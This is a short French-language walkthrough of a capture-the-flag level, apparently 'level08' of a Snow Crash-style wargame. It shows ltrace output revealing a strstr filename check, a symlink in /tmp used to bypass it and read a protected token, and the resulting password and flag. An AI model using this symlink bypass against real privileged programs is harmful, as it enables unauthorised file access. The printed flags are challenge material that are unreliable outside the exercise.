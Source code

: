 ls -la
ex level08
et fichier token

cat token 
cat: token: Permission denied

ok donc 
./level08 
./level08 [file to read]
./level08 token 
You may not access 'token'

ok il faut trouver une solution

quand on fait ltrace ./level08 token

on peut voir 2 fonction appeler
strstr("token", "token")                                   = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)

un des 2 token de strstr doit etre fixe je vais essayer de cree un fichier vide pour le call

echo "" > /tmp/test
./level08 /tmp/test

j'ai rien mais si je ltrace
strstr("/tmp/test", "token")                                            = NULL
open("/tmp/test", 0, 014435162522)                                      = 3

on a token a null car il na pas la permission
il faut que je regarde comment je peu avoir la permission

j'ai trouver qu'on pouvais passer par un autre fichier qui aurait un lien avec le fichier bloquer
un lien symbolique rappel de pischine 

je vais donc tester
ln -s token /tmp/test2 (car test deja pris)
et ca marche enfin on a reussi a cree le lien let's try

./level08 /tmp/test2
VOILA
quif5eloekouj29ke0vouxean

bon ce n'est pas le getflag faut faire attention il faut 
su flag08
et getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f